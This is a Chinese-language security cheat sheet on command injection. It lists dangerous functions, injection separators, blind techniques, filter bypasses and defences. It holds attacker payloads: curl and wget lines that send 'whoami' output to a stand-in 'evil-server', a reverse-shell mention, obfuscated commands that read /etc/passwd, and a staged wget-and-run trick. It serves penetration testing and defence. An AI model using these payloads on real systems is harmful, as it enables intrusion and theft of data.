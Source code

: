 命令注入
========================================

简介
----------------------------------------
命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

常见危险函数
----------------------------------------

PHP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- system
- exec
- passthru
- shell_exec
- popen
- proc_open

Python
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- system
- popen
- subprocess.call
- spawn

Java
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- java.lang.Runtime.getRuntime().exec(command)

常见注入方式
----------------------------------------
- 分号分割
- ``||`` ``&&`` ``&`` 分割
- ``|`` 管道符
- ``\r\n`` ``%d0%a0`` 换行 
- ``echo `whoami``` 反引号解析
- ``$()`` 替换

无回显技巧
----------------------------------------
- bash反弹shell
- DNS带外数据
- http带外
    - ``curl http://evil-server/$(whoami)``
    - ``wget http://evil-server/$(whoami)``
- 无带外时利用 ``sleep`` 或其他逻辑构造布尔条件

常见绕过方式
----------------------------------------

空格绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``<`` 符号 ``cat<123``
- ``\t`` / ``%09``
- ``${IFS}`` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

黑名单绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``a=l;b=s;$a$b``
- base64 ``echo "bHM=" | base64 -d``
- ``/?in/?s`` => ``/bin/ls``
- 连接符 ``cat /etc/pass'w'd``
- 未定义的初始化变量 ``cat$x /etc/passwd``

长度限制绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    >wget\
    >foo.\
    >com
    ls -t>a
    sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行
直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看)
如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

常用符号  
----------------------------------------

命令分隔符
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``%0a`` / ``%0d`` / ``\n`` / ``\r``
- ``;``
- ``&`` / ``&&``

通配符
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``*`` 0到无穷个任意字符
- ``?`` 一个任意字符
- ``[ ]``  一个在括号内的字符，e.g. ``[abcd]``
- ``[ - ]``  在编码顺序内的所有字符
- ``[^ ]`` 一个不在括号内的字符

防御
----------------------------------------
- 不使用时禁用相应函数
- 尽量不要执行外部的应用程序或命令
- 做输入的格式检查
- 转义命令中的所有shell元字符
    - shell元字符包括 ``#&;`,|*?~<>^()[]{}$\``
